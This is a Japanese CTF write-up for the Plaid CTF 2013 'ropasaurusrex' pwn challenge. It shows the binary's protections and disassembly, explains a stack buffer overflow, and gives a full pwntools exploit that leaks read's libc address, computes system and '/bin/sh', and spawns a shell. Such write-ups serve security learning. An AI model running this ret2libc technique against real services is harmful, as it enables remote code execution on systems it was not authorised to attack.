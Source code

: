 ```yaml
---
layout: post
alias: "/blog/2016/02/15/plaidctf-2013-ropasaurusrex/"
date: 2016-02-15T23:20:14+09:00
tags: [ "ctf", "writeup", "pwn", "plaidctf", "return-oriented-programming", "buffer-overflow", "stack-overflow" ]
---
```


# Plaid CTF 2013 ropasaurusrex

binary読んだり脆弱性探したりする必要がなく単にropするだけなのでとても楽。

## [ropasaurusrex](http://shell-storm.org/repo/CTF/PlaidCTF-2013/Pwnable/ropasaurusrex-200/)

``` sh
$ file ropasaurusrex
ropasaurusrex: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=96997aacd6ee7889b99dc156d83c9d205eb58092, stripped

$ checksec --file ropasaurusrex
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ropasaurusrex
```

xinetd型。relro無し。canary無し。libcは与えられる。

``` sh
$ ll ropasaurusrex
-rwxr-xr-x 1 user user 2948 Apr 22  2013 ropasaurusrex
```

コードはとても短かくて、実質以下のふたつの関数のみからなる。

``` asm
080483f4 <bof>:
 80483f4:       55                      push   ebp
 80483f5:       89 e5                   mov    ebp,esp
 80483f7:       81 ec 98 00 00 00       sub    esp,0x98
 80483fd:       c7 44 24 08 00 01 00    mov    DWORD PTR [esp+0x8],0x100
 8048404:       00 
 8048405:       8d 85 78 ff ff ff       lea    eax,[ebp-0x88]
 804840b:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804840f:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 8048416:       e8 11 ff ff ff          call   804832c <read@plt>
 804841b:       c9                      leave  
 804841c:       c3                      ret    

0804841d <main>:
 804841d:       55                      push   ebp
 804841e:       89 e5                   mov    ebp,esp
 8048420:       83 e4 f0                and    esp,0xfffffff0
 8048423:       83 ec 10                sub    esp,0x10
 8048426:       e8 c9 ff ff ff          call   80483f4 <bof>
 804842b:       c7 44 24 08 04 00 00    mov    DWORD PTR [esp+0x8],0x4
 8048432:       00 
 8048433:       c7 44 24 04 10 85 04    mov    DWORD PTR [esp+0x4],0x8048510 # "WIN\n"
 804843a:       08 
 804843b:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 8048442:       e8 c5 fe ff ff          call   804830c <write@plt>
 8048447:       c9                      leave  
 8048448:       c3                      ret    
```

### 攻撃

普通にropする。`read`のアドレスを`write`して脆弱性のある関数を呼び出し、得られた`read`のアドレスから`system`と`"/bin/sh"`を計算し、再度ropしこれを呼ぶ。

### 実装

`objdump -R ropasaurusrex | grep read`とかして出てきたアドレスをコピペして即値として使ってたらコピペミスが発生したので、ちゃんとpwnlibの[機能](http://pwntools.readthedocs.org/en/2.2/elf.html)を使いました。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()

elf = ELF('./ropasaurusrex')
if args.host == 'localhost':
    libc = ELF('/usr/lib32/libc.so.6')
else:
    libc = ELF('./libc.so.6')

bof = 0x80483f4 # the vulnerable function
buffer_len = 0x88

context.log_level = 'debug'
p = remote(args.host, args.port)

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(elf.symbols['write'])
payload += p32(bof)
payload += p32(1) # stdout
payload += p32(elf.got['read'])
payload += p32(4) # len
p.send(payload)
resp = p.recvn(4)
read = u32(resp)
libc_base = read - libc.symbols['read']

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(libc_base + libc.symbols['system'])
payload += 'AAAA' # cont
payload += p32(libc_base + next(libc.search('/bin/sh')))
p.send(payload)

p.sendline('ls')
p.interactive()
```
